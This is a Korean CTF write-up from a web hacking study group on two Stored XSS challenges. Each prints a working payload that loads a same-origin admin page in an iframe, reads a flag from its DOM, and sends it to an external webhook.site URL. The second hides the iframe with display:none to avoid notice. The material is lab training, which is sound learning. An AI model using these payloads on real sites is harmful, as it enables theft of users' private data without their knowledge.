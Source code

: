 # 웹 해킹 스터디 11주차 과제: Stored XSS 기반 Same-Origin DOM 데이터 탈취

## 개요

- 이 문서는 Stored XSS 취약점과 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.
- 주어진 웹 애플리케이션에서 민감 정보가 포함된 페이지를 `iframe`으로 불러오고, JavaScript를 이용해 내부 DOM에 접근하여 데이터를 추출한 뒤 외부 서버로 전송하는 방식으로 공격을 수행하였습니다.
- 공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.
- 본 실습의 핵심은 공격 스크립트 삽입, 동일 출처 기반의 iframe DOM 접근, 외부 전송 방식 등 실제 공격 흐름을 구성하여, XSS 취약점이 **단순 스크립트 실행을 넘어 정보 유출로도 직결될 수 있음을 재현**하는 데 있습니다.

---

## CTF 문제 풀이

### Steal Info

![취약점 있는 곳](./screenshots/steal1_post.png)

- 게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](./screenshots/target_html.png)

- 누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

- 확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](./screenshots/target_card-text.png)

- 위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal1_payload.png)

- 이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](./screenshots/steal1_access_admin.png)

- URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](./screenshots/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

### Steal Info 2

![타겟 할 곳](./screenshots/steal2_burp_suite.png)

- 위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal2_payload.png)

- `iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

사용자가 직접 게시물 클릭 시:

![게시물 클릭](./screenshots/steal2_access.png)

- 게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

- 이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](./screenshots/steal2_access_admin.png)

- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

**결과:**

![플래그 획득](./screenshots/steal2_flag.png)

결과적으로, 관리자 권한 없이 플래그를 획득하는 데 성공했다.



